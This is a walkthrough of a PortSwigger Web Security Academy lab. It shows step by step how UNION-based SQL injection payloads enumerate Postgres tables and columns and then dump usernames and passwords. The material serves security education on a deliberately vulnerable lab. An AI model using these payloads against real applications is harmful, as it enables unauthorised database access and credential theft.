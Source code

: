 # Write-up: SQL injection attack, listing the database contents on non-Oracle databases @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection attack, listing the database contents on non-Oracle databases* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html), the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I use an invalid category so that no articles are found and only my output appears.


// This reveals all database tables and their schemas (just the names). Further details need to be extracted with the next injection. Note down potential table schemas that might contain user details.



```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```

![name of the users table](img/found_users_table.png)

### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) view holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--` to form this query



// Replace the table name with the one you noted above. Also, make note of the field names that contain usernames and passwords.




```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'
```

![username and password columns](img/username_and_password_columns.png)

### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

// Replace the username and password field names according to the ones you noted above.


```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```

![usernames and passwords](img/username_and_passwords.png)

// Passwords of users should be now visible.

Now I simply log in to solve this exercise.

![success](img/success.png)

